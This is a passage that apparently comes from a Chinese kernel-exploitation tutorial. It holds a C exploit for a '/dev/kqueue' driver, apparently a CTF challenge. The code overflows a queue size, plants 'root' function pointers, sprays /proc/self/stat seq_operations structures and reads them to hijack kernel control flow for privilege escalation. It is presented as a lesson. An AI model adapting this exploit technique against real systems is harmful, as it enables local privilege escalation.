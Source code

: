 ```c
    size_t buffer[0x100] = {0};
    int seq_fd[0x100] = {0};

    save_status();

    queue_entry *entry = (queue_entry *) malloc(0x20);
    entry->idx = 1;
    entry->data = (char *)malloc(0x20);

    buffer[0] = (size_t )root;
    buffer[1] = (size_t )root;
    buffer[2] = (size_t )root;
    buffer[3] = (size_t )root;

    memcpy(entry->data , buffer , 0x20);

    fd = open("/dev/kqueue" , O_RDWR);

    create(0x800 , MAX_DATA_SIZE);
    create(1 , MAX_DATA_SIZE);
    create(0xffffffff , MAX_DATA_SIZE);
    
    edit(2 , 0 , "aaaaaaaaaaaaaaaa");
    edit(1 , 1 , (char *)entry); 
    // 相当于修改 2 1

    for (int i =0;i<0x100;i++){
        seq_fd[i] =  open("/proc/self/stat", O_RDONLY);
    }

    // getchar();
    save(2 , 2 , 0x20) ; 

    info("(size_t )root" , (size_t )root);

    for (int i =0;i<0x100;i++){
        read(seq_fd[i] , buffer , 0x10);
    }
}

```

![image-20221024141432723](%E6%95%99%E4%BD%A0%E5%AD%A6%E5%86%85%E6%A0%B8-tty,seq/image-20221024141432723.png)
